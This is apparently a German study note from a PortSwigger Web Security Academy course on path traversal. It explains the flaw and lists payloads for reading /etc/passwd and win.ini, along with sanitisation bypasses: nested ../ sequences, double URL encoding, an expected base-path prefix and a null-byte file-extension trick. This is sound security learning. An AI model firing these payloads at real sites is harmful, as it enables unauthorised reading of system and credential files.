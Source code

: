 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Was ist Path traversal

Auch bekannt als Directory Traversal. Mit der kann man im schlimmsten Fall Zugriff zu Files außerhalb des Webseiten-Bereichs erreichen und sogar das System oder die komplette App verändern.

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

z. B. eine Seite lädt ein Bild wie folgt.
```html
<img src="/loadImage?filename=218.png">
```

dann könnte man das wie folgt nutzen
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

Manchmal muss man die Pfade auch etwas anpassen. 
z. B.
`....//....//....//etc/passwd`
`etc/passwd`

##### Bypassing Sanatization

**Encoding**
Mit URL Encoding kann man den gewünschten Pfad auch wieder encoden um solche sanitizations zu bypassen
`..%252f..%252f..%252fetc/passwd`
oder auch als ganzes
`%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32fetc/passwd`
oder auch komplett inkl. etc/passwd encoden.

**Expected Base Pfad**
Manchmal kann es auch sein, dass ein Mechanismus verlangt, dass es mit einem bestimmten Base Pfad startet. Das sieht dann wie folgt aus.
z. B.
`/var/www/images`
dann setzen wir sowas wie.
`filename=/var/www/images/../../../etc/passwd`

> [!note] Tool-Tipp
> Hackvertor Extension verwenden zum encoden

![[path_traversal1.PNG]]
**Expected File Extension**
Ebenfalls gilt das für Dateiendungen. Es kann z. B. sein, dass nur `.png` verwendet werden darf. Dann baut man sowas wie:
`filename=../../../etc/passwd%00.png`
- `%00`: bedeutet Nullbyte also `\0` und bei vielen Low-Level C API's gilt das als Ende der Zeichenkette.